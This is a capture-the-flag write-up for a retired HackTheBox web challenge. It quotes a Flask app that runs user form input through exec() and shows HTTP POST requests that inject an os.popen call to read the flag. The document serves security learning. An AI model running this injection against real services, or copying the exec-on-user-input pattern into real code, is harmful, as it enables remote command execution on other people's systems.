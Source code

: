 # Solution for Baby Interdimensional - HackTheBox - Challenges - Retired - Web

First, we see there is nothing on the page but in the source there is an interesting comment
```text
<!-- /debug -->
```

Upon visiting, we see the source code of this page and here we have to look through stuff to see what's what

```text
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

So from what we can see it needs 2 post parameters and then we can have some sort of command injection that is allowing us to run the exec command.
So recipe seems to be a global variable set by measurements. So we try to emulate a POST request and try to control the variable 
```text
POST / HTTP/1.1
Host: 104.248.168.109:32312
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

ingredient=cat&measurements=691
```

Here we have added the content-type to make the request work.

And the page is now printing 691 on the webpage!
Let's try and get the exec command to work

From this website 
https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html

We learn we can do remote command injection in the exec command by doing this 

```
eval("__import__('os').popen('').read()")
```

Now we can try doing ls,
First, this is our POC for command execution is 

![LS POC RCE](https://github.com/HanozDar/challenges/blob/master/htb-challenges/baby_interdimensional/images/ls-command-rce.png)

Now let's try to figure out how to cat flag

We are successful! Our final payload is 
```text
POST / HTTP/1.1
Host: 104.248.168.109:32312
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 79

ingredient=cat&measurements=eval("__import__('os').popen('cat flag').read()")
```






